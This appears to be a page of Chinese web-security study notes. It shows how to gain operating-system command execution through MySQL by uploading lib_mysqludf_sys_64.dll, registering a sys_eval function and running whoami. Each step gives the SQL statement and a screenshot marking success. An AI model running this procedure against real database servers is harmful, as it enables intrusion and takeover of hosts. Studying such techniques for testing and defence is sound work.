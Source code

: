 

**查看MySQL的安装目录**

```python
select @@basedir;
```
![image.png](_img/02-Web安全/01-基础知识/1663834694283-d03a9f2b-ac08-4e64-9b84-f442c667d470.png)



**查看是否存在lib\plugin文件夹**
![image.png](_img/02-Web安全/01-基础知识/1663835127265-b773f0a1-5f67-462a-85c4-47737f439818.png)

不存在，创建文件夹
![image.png](_img/02-Web安全/01-基础知识/1663836432278-e5ca7106-edcb-499b-b38b-1c817cbbc0ec.png)



**将lib_mysqludf_sys_64.dll文件上传**
![image.png](_img/02-Web安全/01-基础知识/1663836801550-81ef5248-5fab-4445-ad1a-2bfcf49ba2b2.png)



**执行语句**

```python
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys_64.dll';
```
![image.png](_img/02-Web安全/01-基础知识/1663836533075-e7ab94c9-8286-4673-b84b-b690f04ca84f.png)
成功



**查看是否新增函数**

```python
select * from mysql.func;
```
![image.png](_img/02-Web安全/01-基础知识/1663836641699-bf6beeac-b3e5-49c6-80d7-a23c3c6d918c.png)
成功新增



**尝试执行系统命令**

```python
select sys_eval('whoami');
```
![image.png](_img/02-Web安全/01-基础知识/1663836752083-c0a3eac8-3b6d-46bf-832b-f0584922614e.png)
成功